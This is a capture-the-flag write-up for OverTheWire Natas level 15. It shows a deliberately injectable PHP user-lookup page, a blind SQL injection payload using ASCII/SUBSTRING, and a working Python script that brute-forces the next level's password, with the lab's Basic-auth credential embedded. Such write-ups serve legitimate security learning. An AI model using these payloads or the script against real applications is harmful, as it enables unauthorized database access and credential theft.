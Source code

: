 # Level 15
Pushing things further, here we do Blind SQL injection. Also, we'll make a python script to do the same.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again unsanitized user input is inserted into query.<br/>
 - Although no output is displayed after query execution, we can make use of blind SQL injection.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg. we'll leverage this behaviour<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with username and password column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is a log from my local linux lab to make use of `ascii` and `substring` function to smuggle password.<br/>


```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  # Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
Our payload -> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`
Just like above, we are checking if the first character of password of user natas16 has ascii code of 65 .i.e. its A<br/>

Below is screenshot of our failed attempt in Burp

![Level 15 solution](./images/Level15_solution.png)

Below is our successfull attempt, Now we know our password begins with word 'W', ascii code 87.

![Level 15.1 solution](./images/Level15.1_solution.png)

Now instead of doing every character one by one, we use Burp intruder. we manually change the `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of when we found the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level. <br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/>
This script does blind mysql injection till password is revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>

I Added a cool effect that displays the found characters and also searches for next character.

Here is the script in action
[![asciicast](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN.svg)](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN)

<img src=https://grey-fish.github.io/Natas/images/natas15.gif>
This was my longest writeup yet, time to rest.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
